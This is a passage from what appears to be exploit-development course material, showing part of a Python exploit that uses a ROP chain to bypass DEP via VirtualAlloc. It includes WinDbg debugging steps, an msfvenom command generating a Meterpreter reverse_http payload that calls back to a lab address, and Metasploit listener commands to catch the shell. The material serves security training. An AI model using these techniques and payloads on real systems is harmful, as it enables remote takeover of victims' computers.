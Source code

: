 rop = pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn
...
rop += pack("<L", (0x50533cbf)) # mov esp, ebp ; pop ebp ; ret

padding = b"C" * 0xe0

shellcode = b"\xcc" * (0x400 - 276 - 4 - len(rop) - len(padding))

formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (offset+va+eip+rop+padding+shellcode,0,0,0,0)
buf += formatString

At this point, everything is aligned and we can execute the dummy shellcode by single-stepping through it.
	bp KERNEL32!VirtualAllocStub
	g
	pt
	p
	p
	p
	p
	
The execution on the stack doesn't trigger any access violation. Congratulations, we succeeded in using ROP to bypass DEP!

Getting a Reverse Shell

First, let's determine how much space we have available for our shellcode. When VirtualAlloc completes execution and we return into our dummy shellcode, we can dump memory at EIP to find the exact amount of space available
	dd eip L40
	? 0d5ae604 - eip
	


We only have 240 bytes available, which is likely not enough for a reverse shellcode.

Luckily, we have the freedom to increase the buffer size. If we increase it from 0x400 to 0x600 bytes, we can compensate for a larger payload size.

We use msfvenom to generate the shellcode, remembering to supply the bad characters with the -b option.

	msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.120 LPORT=8080 -b "\x00\x09\x0a\x0b\x0c\x0d\x20" -f python -v shellcode
	

From the highlighted payload size in Listing 83, we find that, due to the encoding, the shellcode takes up 544 bytes.

Now, we just need to insert the shellcode into the proof of concept, and we have our final exploit code. Before we execute the complete exploit, we will set up a Metasploit multi/handler listener to catch our shell.
	use multi/handler
	set payload windows/meterpreter/reverse_http
	set lhost 192.168.119.120
	set lport 8080
	exploit
	getuid
	